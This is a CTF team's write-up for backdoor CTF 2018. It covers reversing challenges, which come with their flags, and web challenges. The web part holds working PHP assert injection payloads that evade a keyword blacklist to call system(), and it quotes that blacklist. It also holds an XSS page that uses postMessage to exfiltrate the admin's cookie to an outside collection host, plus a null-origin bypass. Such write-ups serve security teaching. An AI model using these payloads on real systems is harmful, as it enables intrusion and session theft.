 # backdoor CTF 2018

 - [backdoor CTF 2018](#backdoor-ctf-2018)
   - [Pwn](#pwn)
     - [shelter (sces60107)](#shelter-sces60107)
   - [rev](#rev)
     - [re-curse (sces60107)](#re-curse-sces60107)
     - [mind-fcuk (sces60107)](#mind-fcuk-sces60107)
   - [forensic](#forensic)
     - [random-noise (qazwsxedcrfvtg14 sces60107)](#random-noise-qazwsxedcrfvtg14-sces60107)
     - [vm-service 1 &amp; 2 (sces60107 qazwsxedcrfvtg14)](#vm-service-1--2-sces60107-qazwsxedcrfvtg14)
   - [misc](#misc)
     - [cats-everywhere (sces60107)](#cats-everywhere-sces60107)
   - [crypto](#crypto)
   - [web](#web)
     - [BF-CAPTCHA-REVENGE (solved by qazwsxedcrfvtg14, written by bookgin)](#bf-captcha-revenge-solved-by-qazwsxedcrfvtg14-written-by-bookgin)
     - [Get-hired (solved by sasdf, written by bookgin)](#get-hired-solved-by-sasdf-written-by-bookgin)
     - [Get-hired 2 (unsolved, written by bookgin)](#get-hired-2-unsolved-written-by-bookgin)


## Pwn 

### shelter (sces60107)

## rev

### re-curse (sces60107)

In this challenge, you will get a binary file.

After some investigation, you find out that it's a Haskell binary.

This binary will take your input string and do some encoding, then it will compare your encoded string with the encoded flag.

Here is an example

![](https://i.imgur.com/VhHVHEC.png)


You can find out that `CTF` will become `dE4`.

If encode both string in hex, you will find out the secret.

```shell=
Hex("CTF") = "435446";
Hex("dE4") = "644534";
```

This binary reverse the hex string.

After knowing that encode algorithm, we just need find out the encoded flag.

Finally, the flag is `CTF{R3_CURS3_I5_LIFT3D_0FF_Y0U}`

### mind-fcuk (sces60107)

You will get a binary from this challenge.

First we can just execute it, and see what will happen.

![](https://i.imgur.com/TI82DQi.png)

It has four keys.

This binary will divide your input into four parts, and each part will be compared with those keys repectively after doing some encoding.

The first part is ROT13.
The second one is XOR.
For the third one and four one, I just mantain a mapping table instead of reversing the algorithm.

At the end I can produce the flag.

The flag is `CTF{f5g4s8g4dyjj4f48f5d}`


## forensic

### random-noise (qazwsxedcrfvtg14 sces60107)

### vm-service 1 & 2 (sces60107 qazwsxedcrfvtg14)

## misc

### cats-everywhere (sces60107)

## crypto

## web

### BF-CAPTCHA-REVENGE (solved by qazwsxedcrfvtg14, written by bookgin)

The challenge is a website which shows some brainfuck code and an audio captcha, and I don't bother to solve it at all.

First, the descrition of the challenge gives us the hint about the `.git`. We use [GitTools](https://github.com/internetwache/GitTools) to crwal the repository.

>rnehra01 loves to version control and has made these captchas as good as hell.


In the source code:
```php
function is_clean($input){
    ...

	if (preg_match('/(base64_|eval|system|shell_|exec|php_)/i', $input)){//no coomand injection 
		bad_hacking_penalty();
		return false;
	}

    ...

}

if (is_clean($user_ans)) {
  assert("'$real_ans' === '$user_ans'") 
  ...
}
```

There is a obvious command injection, and it can be bypassed easily.

The payload:
```
`'OR ("sys"."tem")("ls -al") OR'`  
`'OR ("sys"."tem")("cat rand*") OR'`
```

Acctually I'm trying to create a reverse shell, but `system` seems to be more efficient and effective to retrieve the flag.

Of course, I guess some team will solve all the reCAPTCHA to get the flag, and [P4](https://github.com/p4-team/ctf/tree/master/2018-03-18-backdoor-ctf/web_captcha) proves that.

### Get-hired (solved by sasdf, written by bookgin)

In `call.js`, this is vulenrable to XSS:
```javascript=
function p(details){
	document.getElementById('call\_details').innerHTML = details.sender\_username + " is calling " + details.receiver_username + " ....";
}
```

It utilizes `postMessage` API to render the HTML content.
```javascript
$("#audiocall").click(function(){
         var call_window;
         call_window = window.open("call.php");
         setTimeout(function(){
             call_window.postMessage({
               type: "audio",
               details: {
                 sender_username: "admin",
                 sender\_team\_name: "InfosecIITR",
                 receiver\_username: escapeHTML($("#r\_call").val()),
                 receiver\_team\_name: escapeHTML($("#rteam_call").val())
               }
             }, "*");
         }, 100);
     });

```

Also, sending a URL in `get hired` page allows the admin to browse a foreign site. Therefore, we just create a `evilsite.com` with the content below. The admin will post the XSS payload to iFrame, and we are able to get the cookie.

```htmlmixed
<iframe id="if" src="http://localhost/call.php"></iframe>                                                                                
<script>                                                                                                                                 
var ifr = document.getElementById("if").contentWindow;                                                                                   
var payload = "<img src=a onerror='window.location.href=(\"https://hookb.in/test?g=\" + btoa(document.cookie));'>";                      
                                                                                                                                         
setTimeout(function(){                                                                                                                   
ifr.postMessage({                                                                                                                        
  type: "audio",                                                                                                                         
  details: {                                                                                                                             
   sender_username: payload,                                                                                                             
   sender_team_name: payload,                                                                                                            
   receiver_username: payload,                                                                                                           
   receiver_team_name: payload                                                                                                           
  }                                                                                                                                      
}, "*");                                                                                                                                 
}, 3000);                                                                                                                                
</script>
```

### Get-hired 2 (unsolved, written by bookgin)

It adds an origin verification function.

```javascript
function verifyorigin(originHref) {
        var a = document.createElement("a");
        a.href = originHref;        
        return a.hostname == window.location.hostname
}

if(!verifyorigin(event.origin)){
    return;
    ...
}
```

Bypass it with null origin using [data URI](https://en.wikipedia.org/wiki/Data_URI_scheme). 

Reference:
1. https://ctftime.org/writeup/9187
2. https://ctftime.org/writeup/9181

